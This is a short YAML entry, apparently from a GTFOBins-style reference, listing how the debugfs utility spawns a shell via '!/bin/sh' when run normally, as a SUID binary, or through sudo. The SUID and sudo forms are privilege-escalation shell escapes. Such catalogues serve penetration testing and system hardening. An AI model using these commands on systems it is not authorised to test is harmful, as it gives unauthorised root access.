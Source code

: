 ```yaml
---
functions:
  shell:
    - code: |
        debugfs
        !/bin/sh
  suid:
    - code: |
        ./debugfs
        !/bin/sh
  sudo:
    - code: |
        sudo debugfs
        !/bin/sh
---
```


